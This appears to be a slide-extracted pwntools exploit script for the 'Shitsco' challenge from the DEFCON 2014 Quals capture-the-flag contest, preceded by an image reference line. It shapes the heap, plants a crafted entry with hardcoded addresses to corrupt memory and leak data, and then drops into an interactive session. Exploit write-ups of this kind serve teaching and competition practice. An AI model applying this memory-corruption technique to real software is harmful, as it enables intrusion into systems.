

# Shitsco (DEFCON 2014 Quals)
from pwn import *
context(log_level='debug')
p = process('./shitsco')

def set(key, value):
    p.recvuntil('$ ')
    p.sendline('set %s %s' % (key, value))

def show():
    p.recvuntil('$ ')
    p.sendline('show')

set('a', 'a' * 16)
set('b', 'b' * 16)
set('a', '')
set('b', '')
set('c', 'AAAA' + p32(0x804c3a0) + p32(0x0804c08c) + 'A' * 4)
show()
p.interactive()